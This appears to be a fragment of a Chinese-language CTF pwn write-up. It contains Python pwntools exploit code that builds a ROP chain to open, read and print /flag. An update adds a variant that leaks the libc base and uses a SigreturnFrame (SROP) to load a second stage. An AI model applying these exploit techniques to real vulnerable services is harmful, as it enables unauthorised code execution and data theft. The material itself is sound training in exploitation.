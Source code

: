 ```python
frame += p64(0)*7
sa('message:',frame)

chain = [
	'/flag\x00\x00\x00',0,
	# open(buf-0x10,0,0)
	pop_rdi,buf-0x10,pop2,0,0,open,
	# read(3,buf+0x100,0x100)
	pop_rdi,3,pop2,0x100,buf+0x100,read,
	# puts(buf+0x100)
	pop_rdi,buf+0x100,puts
]
s(flat(chain))
```


更新：参考 AiDai 师傅的方法，可以自动构造 frame，并且不需要系统调用：

```python
ru('0x')
puts = int(ru('\n'),16)
base = puts-libc.sym['puts']
leak('base',base)
pop_rdi = base+0x21102
pop2 = base+0x1150c9
open = base+libc.sym['open']
read = base+libc.sym['read']
buf = base+libc.bss()

frame = SigreturnFrame()
frame.rdi = 0
frame.rsi = buf
frame.rdx = 0x100
frame.rsp = buf
frame.rip = read
sa('message:',str(frame)[8:])

chain = [
	# read(0,buf,0x100)
	pop_rdi,0,pop2,0x100,buf,read,
	# open(buf,0,0)
	pop_rdi,buf,pop2,0,0,open,
	# read(3,buf,0x100)
	pop_rdi,3,pop2,0x100,buf,read,
	# puts(buf)
	pop_rdi,buf,puts
]
s(flat(chain))
s('/flag\x00')
```
